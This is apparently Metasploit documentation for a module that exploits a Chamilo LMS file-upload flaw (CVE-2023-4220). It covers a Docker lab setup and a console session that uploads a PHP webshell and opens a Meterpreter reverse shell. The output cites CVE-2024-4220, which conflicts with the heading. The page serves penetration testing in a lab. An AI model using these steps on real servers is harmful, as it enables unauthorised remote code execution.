 ## Vulnerable Application
Chamilo LMS is a free software e-learning and content management system. In versions prior to <= v1.11.24
a webshell can be uploaded via the bigload.php endpoint. If the GET request parameter `action` is set to
`post-unsupported` file extension checks are skipped allowing for attacker controlled .php files to be uploaded to:
`/main/inc/lib/javascript/bigupload/files/` if the `/files/` directory already exists - it does not exist
by default.

### Setup

A vulnerable docker-compose configuration can be found at the following link: https://github.com/vulhub/vulhub/pull/559
1. Clone the repo `git clone https://github.com/vulhub/vulhub.git`
1. Checkout the pull request mentioned above: `git checkout CVE-2023-4220`
1. Run `cd vulhub/chamilo/CVE-2023-4220`
1. Start the environment: `docker compose up`
1. Navigate to `http://127.0.0.1:8080` to complete the installation wizard.
1. Note when filling out the database IP address and credentials - the DB hostname is the name of the container which is
   `mariadb` (not `localhost` or `127.0.0.1`).
1. Once the installation wizard is complete the target should be ready to be
   exploited with the module. This container has the non-default `/files/` directory created already.

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/chamilo_bigupload_webshell`
1. Set the `RHOST`, `RPORT`, and `LHSOT` options
1. Run the module
1. Receive a Meterpreter session as the `www-data` user.

## Scenarios
### Chamilo 1.11.18 running in Docker
```
msf > use linux/http/chamilo_bigupload_webshell
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(linux/http/chamilo_bigupload_webshell) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf exploit(linux/http/chamilo_bigupload_webshell) > set rport 8080
rport => 8080
msf exploit(linux/http/chamilo_bigupload_webshell) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(linux/http/chamilo_bigupload_webshell) > show options

Module options (exploit/linux/http/chamilo_bigupload_webshell):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP



View the full module info with the info, or info -d command.

msf exploit(linux/http/chamilo_bigupload_webshell) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The directory /main/inc/lib/javascript/bigupload/files/ exists on the target indicating the target is vulnerable.
[+] The target is vulnerable. File upload was successful (CVE-2024-4220 was exploited successfully).
[*] Sending stage (40004 bytes) to 172.16.199.1
[+] Deleted 1nZaWHvP
[+] Deleted kFAqQcbWxs.php
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.1:60031) at 2024-11-11 10:42:06 -0800

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : c2064983b0e1
OS          : Linux c2064983b0e1 6.10.11-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Oct  3 10:19:48 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter >
```
